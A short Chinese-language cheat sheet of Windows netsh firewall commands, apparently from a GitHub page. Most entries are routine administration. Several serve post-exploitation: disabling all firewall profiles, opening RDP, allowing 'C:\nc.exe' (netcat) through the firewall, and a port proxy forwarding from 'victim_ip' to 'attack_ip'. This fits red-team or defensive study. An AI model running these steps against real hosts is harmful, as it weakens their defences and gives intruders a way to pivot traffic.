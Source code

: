 **netsh**

查看防火墙状态
```
netsh firewall show state
netsh advfirewall show allprofiles
```

开启防火墙
```
netsh firewall set opmode enable
netsh firewall set allprofiles state on
```

关闭防火墙
```
netsh firewall set opmode disable
netsh advfirewall set allprofiles state off
```

设置防火墙日志路径
```
netsh advfirewall set currentprofile logging filename "C:\Windows\firewall.log"
```

添加防火墙规则
```
netsh advfirewall firewall add rule name="Remote Desktop" dir=in action=allow protocol=tcp localport=3389
```

删除防火墙规则
```
netsh advfirewall firewall delete rule name="rule_name"
```

添加端口规则
```
netsh firewall portopening tcp 1234 rule_name
```

删除端口规则
```
netsh firewall delete portopening tcp 1234
```

添加程序规则
```
netsh firewall add allowedprogram "C:\\nc.exe" "allow nc" enable
```

删除程序规则
```
netsh firewall delete allowedprogram "C:\\nc.exe"
```

添加端口转发
```
netsh interface portproxy add v4tov4 [listenaddress=victim_ip] listenport=victim_port connectaddress=attack_ip connectport=attack_port
```
